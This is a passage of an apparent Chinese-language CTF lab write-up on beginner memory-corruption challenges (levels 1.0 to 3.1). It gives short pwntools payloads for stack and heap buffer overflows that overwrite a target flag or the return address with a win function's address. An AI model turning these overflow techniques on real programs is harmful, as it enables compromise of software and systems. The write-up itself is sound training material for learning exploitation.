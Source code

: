 ```python
p.interactive()
```

### 1.0

直接给了偏移量 44，只要溢出 1 字节就能将目标值改成非 0 了。

```python
payload = b'a'*44 + b'\x01'
s(payload)
```

### 1.1

没有给偏移量，可以无视偏移量直接输入很长的 payload，因为 canary 检查在 `win` 执行之后。

```python
payload = b'a'*0x100
s(payload)
```

### 2.0

和 1.0 类似，只不过在堆上。

```python
payload = b'a'*192 + b'\x01'
s(payload)
```

### 2.1

和 1.1 类似，只不过在堆上。

```python
payload = b'a'*0x200
s(payload)
```

### 3.0

提供了偏移量和目标函数地址，直接覆盖返回地址即可。

```python
win = 0x401554
payload = b'a'*88+p64(win)
s(payload)
```

### 3.1

用 pwndbg 的 `cyclic` 可以准确确定偏移量，`info func` 可以得到 `win` 的地址。

```python
win = 0x4020e1
payload = b'a'*(128+8)+p64(win)
s(payload)
```
